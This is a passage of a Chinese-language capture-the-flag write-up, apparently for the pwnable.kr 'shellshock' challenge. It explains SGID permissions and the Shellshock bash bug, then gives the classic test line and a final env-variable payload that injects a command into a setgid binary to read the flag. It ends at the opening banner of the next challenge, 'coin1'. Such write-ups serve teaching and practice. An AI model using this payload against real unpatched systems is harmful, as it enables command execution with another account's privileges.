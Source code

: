   

对于可执行文件，`SGID`与`SUID`类似，引发的进程的所有组是程序文件所属的组。对于目录，`SGID`属性会使目录中新建文件的所属组与该目录相同。`SGID`也可以用s表示，如:

$ ls -l /vardrwxrwsr-x  2 root staff    4096 Apr 10  2014 localdrwxrwxr-x 15 root syslog   4096 Apr  4 19:57 log

  

也就是说shellshock运行时会得到shellshock_pwn的权限。

  

权限得到了，但是程序中并没有可以得到flag的地方，所以就要利用到shellshock漏洞，漏洞产生原因是由于bash使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的shell命令，例如：

  

env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

  

存在漏洞的bash版本会输出

  

vulnerable
this is a test

  

在后面加`bash -c`的原因是打开一个bash使其立即触发漏洞，因为当前bash没有继承环境变量。

  

所以最终payload：

  

env x='() { :;}; bash -c cat flag' ./shellshock

  

#### 参考文章

  

[https://www.freebuf.com/articles/system/45390.html](https://www.freebuf.com/articles/system/45390.html)

  

[http://aikin.me/2015/04/03/linux-file-permission-ower/](http://aikin.me/2015/04/03/linux-file-permission-ower/)

  

[https://blog.csdn.net/starter](https://blog.csdn.net/starter)_/article/details/78164387

  

## coin1

  

### 题目描述

  

	---------------------------------------------------
	-              Shall we play a game?              -
	---------------------------------------------------
	